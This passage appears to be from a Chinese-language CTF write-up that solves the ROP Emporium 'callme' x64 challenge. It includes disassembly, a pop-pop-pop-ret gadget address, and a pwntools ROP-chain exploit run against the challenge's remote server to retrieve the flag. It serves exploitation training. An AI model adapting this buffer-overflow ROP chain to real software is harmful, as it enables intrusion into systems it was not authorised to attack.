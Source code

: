```
  401b22:	41 5f	pop%r15
  401b24:	c3   	retq   
  401b25:	90   	nop
  401b26:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
mask@mask-virtual-machine:~$ 
```

那么地址就取`pppr_addr = 0x00401ab0`

那么所有的都准备好了，接下来就是编写exp

## 0x02 exp的编写

使用了pwntools工具

```
from pwn import *

callme_one_plt_got = 0x00401850
callme_two_plt_got = 0x00401870
callme_three_plt_got = 0x00401810
pppr_addr = 0x00401ab0

payload = ""
payload += "A"*40
payload += p64(pppr_addr)
payload += p64(0x1) + p64(0x2) + p64(0x3)#传入参数
payload += p64(callme_one_plt_got)
payload += p64(pppr_addr)
payload += p64(0x1) + p64(0x2) + p64(0x3)#传入参数
payload += p64(callme_two_plt_got)
payload += p64(pppr_addr)
payload += p64(0x1) + p64(0x2) + p64(0x3)#传入参数
payload += p64(callme_three_plt_got)

# io = process("./callme")#本地调试

io = remote('172.106.194.121',9999)#连接远程端口，按照题目给的
io.sendline(payload)
print io.recvall()
```

运行：
​    

```
mask@mask-virtual-machine:~/x64Pwn/callme$ vim exp.py 
mask@mask-virtual-machine:~/x64Pwn/callme$ python exp.py 
[+] Opening connection to 172.106.194.121 on port 9999: Done
[+] Receiving all data: Done (99B)
[*] Closed connection to 172.106.194.121 port 9999
callme by ROP Emporium
64bits

Hope you read the instructions...
> flag-{Do_more_and_ask_less}-flag
mask@mask-virtual-machine:~/x64Pwn/callme$ 
```

成功！

## 0x03 总结

学习了构造函数传参的payload以及GOT和.plt等延迟绑定技术